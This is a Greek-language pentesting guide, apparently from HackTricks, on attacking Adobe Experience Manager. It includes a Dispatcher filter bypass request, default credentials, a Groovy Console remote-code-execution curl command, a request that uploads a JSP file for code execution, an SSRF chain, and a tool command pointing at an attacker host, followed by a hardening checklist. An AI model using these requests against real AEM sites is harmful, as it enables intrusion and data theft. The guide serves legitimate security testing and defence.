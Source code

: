 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, μέρος του Adobe Experience Cloud) είναι ένα enterprise CMS που τρέχει πάνω από το Apache Sling/Felix (OSGi) και ένα Java Content Repository (JCR).
> Από την οπτική γωνία ενός επιτιθέμενου, οι περιπτώσεις AEM συχνά εκθέτουν επικίνδυνες αναπτυξιακές τελικές σημεία, αδύναμους κανόνες Dispatcher, προεπιλεγμένα διαπιστευτήρια και μια μακρά λίστα CVEs που διορθώνονται κάθε τρίμηνο.

Η παρακάτω λίστα ελέγχου εστιάζει σε **εξωτερικά προσβάσιμη (unauth) επιφάνεια επίθεσης** που συνεχίζει να εμφανίζεται σε πραγματικές εμπλοκές (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Άλλοι γρήγοροι δείκτες:
* `/etc.clientlibs/` στατική διαδρομή παρούσα (επιστρέφει JS/CSS).
* `/libs/granite/core/content/login.html` σελίδα σύνδεσης με την μπάντα “Adobe Experience Manager”.
* `</script><!--/* CQ */-->` σχόλιο στο κάτω μέρος του HTML.

---

## 2. Υψηλής αξίας μη αυθεντικοποιημένα endpoints

Διαδρομή | Τι παίρνετε | Σημειώσεις
---- | ------------- | -----
`/.json`, `/.1.json` | JCR κόμβοι μέσω **DefaultGetServlet** | Συχνά μπλοκαρισμένο, αλλά *Dispatcher bypass* (βλ. παρακάτω) λειτουργεί.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Διαρροή δέντρου σελίδας, εσωτερικές διαδρομές, ονόματα χρηστών.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix κονσόλα | 403 από προεπιλογή; αν εκτεθεί & βρεθούν διαπιστευτήρια ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Package Manager | Επιτρέπει αυθεντικοποιημένα πακέτα περιεχομένου → JSP payload upload.
`/etc/groovyconsole/**` | AEM Groovy Console | Αν εκτεθεί → αυθαίρετη εκτέλεση Groovy / Java.
`/libs/cq/AuditlogSearchServlet.json` | Αρχεία καταγραφής ελέγχου | Διαρροή πληροφοριών.
`/libs/cq/ui/content/dumplibs.html` | Dump ClientLibs | XSS vector.

### Τέχνασμα παράκαμψης Dispatcher
Οι περισσότερες παραγωγικές τοποθεσίες βρίσκονται πίσω από τον *Dispatcher* (αντίστροφος διακομιστής μεσολάβησης). Οι κανόνες φίλτρου του μπορούν να παρακαμφθούν προσθέτοντας μια επιτρεπόμενη στατική επέκταση **μετά από ένα ερωτηματικό ή κωδικοποιημένη νέα γραμμή**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Μια μόνο αίτηση όπως παραπάνω αποκαλύπτει συχνά κόμβους προφίλ χρηστών με διευθύνσεις email. Οι P-T Partners δημοσίευσαν καλή καθοδήγηση σχετικά με αυτή την αδυναμία. 【】

---

## 3. Κοινές κακοδιαμορφώσεις (ακόμα ζωντανές το 2025)

1. **Ανώνυμο POST servlet** – `POST /.json` με `:operation=import` σας επιτρέπει να φυτέψετε νέους κόμβους JCR. Η μπλοκάρισμα του `*.json` POST στον Dispatcher το διορθώνει. 【】
2. **Προφίλ χρηστών προσβάσιμα από όλους** – η προεπιλεγμένη ACL παραχωρεί `jcr:read` στο `/home/users/**/profile/*` σε όλους.
3. **Προεπιλεγμένα διαπιστευτήρια** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** ενεργοποιημένο ⇒ αντανάκλαση XSS μέσω `?debug=layout` (CVE-2016-7882, ακόμα βρέθηκε σε παλιές εγκαταστάσεις 6.4).
5. **Εκτεθειμένη Groovy Console** – απομακρυσμένη εκτέλεση κώδικα στέλνοντας ένα σενάριο Groovy:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Πρόσφατες ευπάθειες (ρυθμός service-pack)

Τρίμηνο | CVE | Επηρεαζόμενα | Επιπτώσεις
------- | --- | -------- | ------
Δεκ 2024 | **CVE-2024-43711** | 6.5.21 και νωρίτερα | Ακατάλληλη επικύρωση εισόδου → **Αυθαίρετη εκτέλεση κώδικα** (απαιτεί χαμηλά προνόμια). 【】
Δεκ 2024 | CVE-2024-43724/26 | 6.5.21 και νωρίτερα | DOM / Αποθηκευμένο XSS στο Move Page Wizard. 【】
Δεκ 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | XSS βασισμένο σε DOM μέσω κατεργασμένου URL. 【】
Δεκ 2022 | CVE-2022-30683 | ≤ 6.5.13 | Σφάλμα σχεδίασης κρυπτογράφησης → αποκρυπτογράφηση μυστικών (χρειάζονται χαμηλά προνόμια). 【】

Ελέγξτε πάντα το *APSB* δελτίο που αντιστοιχεί στο service-pack του πελάτη και ζητήστε την τελευταία **6.5.22** ή *Cloud Service 2024.11*.

---

## 5. Αποσπάσματα εκμετάλλευσης

### 5.1 RCE μέσω παράκαμψης dispatcher + ανέβασμα JSP
Αν είναι δυνατή η ανώνυμη εγγραφή:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Τώρα ζητήστε το `/content/evil.jsp` – το JSP εκτελείται με τον χρήστη διαδικασίας AEM.

### 5.2 SSRF σε RCE (ιστορικό < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` από **aem-hacker** αυτοματοποιεί την πλήρη αλυσίδα. 【】

---

## 6. Εργαλεία

* **aem-hacker** – σενάριο καταμέτρησης Swiss-army, υποστηρίζει παράκαμψη dispatcher, ανίχνευση SSRF, ελέγχους προεπιλεγμένων διαπιστευτηρίων και άλλα.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – ζητήστε αναδρομικά `/_jcr_content.(json|html)` για να ανακαλύψετε κρυφά στοιχεία.
* **osgi-infect** – ανεβάστε κακόβουλο OSGi bundle μέσω `/system/console/bundles` αν είναι διαθέσιμα διαπιστευτήρια.

---

## 7. Λίστα ελέγχου σκληρύνσης (για τις συστάσεις της αναφοράς σας)

1. Διατηρήστε την έκδοση στην **τελευταία σωρευτική υπηρεσία** (από Ιούλιο 2025: 6.5.22).
2. Αφαιρέστε/περιστρέψτε τους προεπιλεγμένους λογαριασμούς; επιβάλετε SSO/SAML.
3. Σφίξτε τους **φίλτρους Dispatcher** – απορρίψτε `;`, κωδικοποιημένες νέες γραμμές και `*.json` ή `*.querybuilder.json` για ανώνυμους χρήστες.
4. Απενεργοποιήστε ή προστατέψτε τις κονσόλες (`/system/console`, `/crx/*`, `/etc/groovyconsole`) με λίστες επιτρεπόμενων IP.
5. Εφαρμόστε το πακέτο *Anonymous Permission Hardening* που παρέχεται από την Adobe.

## Αναφορές

* Adobe Security Bulletin APSB24-69 – “Ενημερώσεις ασφαλείας για το Adobe Experience Manager (Δεκ 2024)”.
* 0ang3el – εργαλείο aem-hacker (GitHub).
{{#include ../../banners/hacktricks-training.md}}
